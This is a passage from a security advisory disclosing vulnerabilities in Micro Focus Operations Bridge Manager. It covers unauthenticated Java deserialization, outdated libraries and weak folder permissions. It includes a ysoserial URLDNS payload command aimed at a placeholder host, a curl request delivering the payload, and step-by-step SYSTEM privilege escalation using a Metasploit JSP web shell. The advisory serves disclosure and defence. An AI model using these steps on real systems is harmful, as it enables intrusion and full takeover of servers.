Both Linux and Windows versions of OBM are affected by this vulnerability.

### #5: Insecure Java Deserialization in RemoteProxyServlet
* [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
* No CVE assigned
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Manager 2020.05 (earlier versions likely affected)

The final servlet that has a Java deserialization vulnerability is *com.mercury.util.proxy.servlet.RemoteProxyServlet*, which exposes two endpoints at */topaz/remoteProxy* and */topaz/kpiQueryServiceProxy*.

The *doPost()* method of the servlet is partly shown below:

```java
	protected final void doPost(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse)
			throws ServletException, IOException {
		InvocationInfo invocationInfo = null;
		Method method = null;

		InvocationResult returnedresult;
		try {
			ObjectInputStream objectInputStream = new ObjectInputStream(httpServletRequest.getInputStream());
			invocationInfo = (InvocationInfo) objectInputStream.readObject();
			Object controller = this.getTargetObject(httpServletRequest, invocationInfo);
			validateProxiedObjectState(controller, invocationInfo);
			Object result;
			synchronized (controller) {
				if (controller instanceof RequestSupport) {
					((RequestSupport) controller).setRequest(httpServletRequest);
				}

				method = controller.getClass().getMethod(invocationInfo.getMethodName(),
						invocationInfo.getParameterTypes());
				result = method.invoke(controller, invocationInfo.getArgs());
			}

			if (ProxyUtils.isStatefulFactory(invocationInfo.getDeclaringClass())) {
				String key = getUniqueSessionID(invocationInfo);
				HttpSession session = httpServletRequest.getSession(true);
				session.setAttribute(key, result);
				result = "Stateful Proxy for " + method.getReturnType().getSimpleName()
						+ " was initiated succesfully using the following ProxyStatefulFactory class :"
						+ invocationInfo.getDeclaringClass().getSimpleName() + " JSESSIONID=" + session.getId();
			}

			returnedresult = new InvocationResult(result, (Throwable) null);
		} catch (Throwable var12) {
			Throwable e1 = writeToServerLog(var12, method);
			returnedresult = new InvocationResult((Object) null, e1);
		}

		if (_log.isDebugEnabled()) {
			postResponseWithDebug(httpServletResponse, returnedresult, invocationInfo,
					httpServletRequest.getSession().getId());
		} else {
			postResponse(httpServletResponse, returnedresult);
		}
(...)
```
> Snippet I: *com.mercury.util.proxy.servlet.RemoteProxyServlet.doPost()*

Yet again we have a straight up Java deserialization vulnerability: the body of the HTTP POST request gets read as an object without being inspected or modified.

This vulnerability has a major advantage over the previous ones - it can be triggered by an unauthenticated attacker.
Unfortunately for the attacker, the Java classpath of the *JBoss* application server does not contain any vulnerable gadgets. 

The vulnerability can be confirmed by using the [URLDNS](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java) gadget from *ysoserial*:

```sh
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://fakesitethatdoesntexist.com" > /tmp/payload.ser
```

And then sending the request to the server:

```sh
curl -i -s -k -X $'POST' \
	-H $'Host: 10.10.10.99' \
	--data-binary @/tmp/payload.ser \
	-H $'Content-Type: application/octet-stream' -H 'Expect:' \
   $'https://10.10.10.99/topaz/kpiQueryServiceProxy'
```

This will result in a DNS query being sent to resolve "fakesitethatdoesntexist.com". 

While the classpath does not contain any out-of-the-box gadgets, it is likely that [an attacker](https://github.com/frohoff/ysoserial/pulls?q=is%3Apr+is%3Aclosed+author%3Amatthiaskaiser) who has enough time and patience [will be able](https://codewhitesec.blogspot.com/2016/05/return-of-rhino-old-gadget-revisited.html) to construct a [Java gadget chain](https://codewhitesec.blogspot.com/2016/04/infiltrate16-slidedeck-java-deserialization.html) which will transform this proof of concept into an unauthenticated remote code execution.

### #6: Use of Outdated and Insecure Java Libraries
* [CWE-1104: Use of Unmaintained Third Party Components](https://cwe.mitre.org/data/definitions/1104.html)
* No CVE assigned
* Risk Classification: Critical
* Attack Vector: N/A
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)

The vulnerabilities listed in #2, #3 and #4 might have been much harder to exploit if it was not for the use of extremely outdated Java libraries in OBM. These libraries contain Java gadgets that can be used to achieve remote code execution, as it was described above.

There are many outdated and vulnerable libraries in the product, but the following contain widely abused Java deserialization gadgets:

* Apache Commons BeanUtils 1.9.3
* BeanShell 2.0b4
* C3P0 0.9.1.2

If these were not present in the classpath, it would be much harder to exploit **Vulnerability #2, #3 and #4**, resulting in a situation like the one described in **Vulnerability #5** (proof of concept without code execution) and requiring significant more effort to exploit.

The three libraries described contain gadgets that work out-of-the-box or with minimal adjustments to the payloads in *ysoserial*, making them very easy to abuse.


### #7: Incorrect Default Folder Permissions (resulting in Privilege Escalation to SYSTEM)
* [CWE-276: Incorrect Default Permissions](https://cwe.mitre.org/data/definitions/276.html)
* [CVE-2020-11858](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11858) / [ZDI-20-1326](https://www.zerodayinitiative.com/advisories/ZDI-20-1326/)
* Risk Classification: Critical
* Attack Vector: Local
* Constraints: None / N/A
* Affected Products / Versions:
    * Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions 
    * Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 

OBM installs itself by default in C:\HPBSM. After installation, this directory is set and all of its subfolders are set "Special Permissions".

The special permission bits can be seen in the following screenshot:



If we drill down further we can see what actual permissions "normal" (non administrative) users have:



So apparently "normal" users can write files to C:\HPBSM and all of its subfolders. 

From here on, privilege escalation from "normal" user to SYSTEM is *almost* trivial:

1. Login as a "normal" User (or Guest) to the Windows instance where OBM is installed
2. Create a JSP web shell in Metasploit and start exploit/multi/handler to receive it
3. Copy the web shell to one of the Tomcat webapps directories and **rename it to LB_Verify.jsp** (C:\HPBSM\AppServer\webapps\site.war\LB_Verify.jsp)
4. Access the shell path on the web server (http://TARGET/topaz/LB_Verify.jsp)
5. Receive the SYSTEM shell in Metasploit and enjoy!

The *almost* trivial part is due to the renaming of the shell to *LB_Verify.jsp*. This is absolutely necessary for the following reasons:

1. only certain paths are allowed by access by an unauthenticated user (and *LB_Verify.jsp* is one of them);
2. As a Guest / unprivileged user we can write files to the directly, but cannot delete or modify any existing files, and luckily *LB_Verify.jsp* does not exist. 

[Click here for a video that shows the full chain in action](media/obm_win_privesc.mp4).

It should be noted that Micro Focus' [Hardening documentation](https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05/Hardening) specifies that these permissions should be changed after installation:
> OBM installation directory. Restrict access to the OBM installation directory to privileged users. We recommend only allowing the SYSTEM account and Administrators groups to access this directory.

However this begs the question - why is it not done when the product has finished installing? Additionally, the documentation is misleading: it should say that the installation folder and *ALL subfolders* should not be accessible by Administrators.

While this is documented, it is still a serious vulnerability, and if there is no reason for these permissions to be set, then they should be unset automatically by the installer.

Only the Windows version of OBM is affected by this vulnerability.

That's all there is folks!

## Fixes / Mitigations
Please refer to the CVE links in each vulnerability and upgrade to the latest version of the affected products.

## Disclaimer
Please note that Agile Information Security Limited (Agile InfoSec) relies on information provided by the vendor / product manufacturer when listing fixed versions, products or releases. Agile InfoSec does not verify this information, except when specifically mentioned in the advisory text and requested or contracted by the vendor to do so.
Unconfirmed vendor fixes might be ineffective, incomplete or easy to bypass and it is the vendor's responsibility to ensure all the vulnerabilities found by Agile InfoSec are resolved properly. Agile InfoSec usually provides the information in its advisories free of charge to the vendor, as well as a minimum of six months for the vendor to resolve the vulnerabilities identified in its advisories before they are made public.
Agile InfoSec does not accept any responsibility, financial or otherwise, from any material losses, loss of life or reputational loss as a result of misuse of the information or code contained or mentioned in its advisories. It is the vendor's responsibility to ensure their products' security before, during and after release to market.

## License
All information, code and binary data in this advisory is released to the public under the [GNU General Public License, version 3 (GPLv3)](https://www.gnu.org/licenses/gpl-3.0.en.html). For information, code or binary data obtained from other sources that has a license which is incompatible with GPLv3, the original license prevails.
